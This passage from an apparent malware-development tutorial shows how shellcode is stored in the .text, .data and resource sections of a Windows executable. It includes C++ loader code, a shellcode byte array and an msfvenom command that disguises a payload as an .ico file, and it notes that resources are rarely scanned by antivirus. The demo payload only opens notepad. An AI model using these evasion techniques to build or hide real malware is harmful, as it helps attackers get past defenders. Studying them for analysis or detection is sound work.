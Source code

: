 if we see that reserved space in memory map from **x64dbug** you notice that it's permissions is changed from -RW to ER- as we changed it using `VirtualProtect`.
![Image](https://github.com/user-attachments/assets/d3873927-88cd-46db-b470-86cae2a2e680)
and that was shellcode inside text section.

---
### Shell code in .data section

by using the same code above with slightly difference just by moving the byte code array from  the main function to global 
```cpp
#include <iostream>
#include <Windows.h>
using namespace std;
unsigned char shellcode[] = {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,
/*snippet
*/
0xd5,0x6e,0x6f,0x74,0x65,0x70,0x61,0x64,0x2e,0x65,0x78,0x65,0x00 };
int main()
{
/**
snippet
*/
	return 0;
}
```
let's examine the the .data section in PE file format using `CFF` or `PE-Bear`  
![Image](https://github.com/user-attachments/assets/19604f9b-3fb0-4164-b6b7-94f46276ea4e)
our shellcode is inside the `.data` section.

---
### Shell code in .rsrc section
Now for the most exciting part we will store the shellcode byte array in the **resources section**. This section is typically **non-executable** and in most cases, is **not actively scanned** by antivirus software.
we will generate a new payload from msfvenom 
```shell
msfvenom -p windows/x64/exec CMD='notepad.exe' -f raw > shell.ico
```
and moving the file to the project along with a new file used for defining resources that is begin used in our code named `reseource.rc`
- **Steps**:
1. Add the following to the `.rc` file.
	- shell RCDATA "shell.ico"
2. Include the `.rc` file in your project.
3. Access the resource in code using `FindResource` by the string name.

```cpp
	LPCWSTR shell = L"shell";

	HRSRC hResource = FindResource(NULL, shell, RT_RCDATA);
	if (!hResource) {
		std::cerr << "Resource not found!" << std::endl;
		return 1;
	}
// load the resources file
	HGLOBAL hMemory = LoadResource(NULL, hResource);
	if (!hMemory) {
		std::cerr << "Failed to load resource!" << std::endl;
		return 1;
	}

```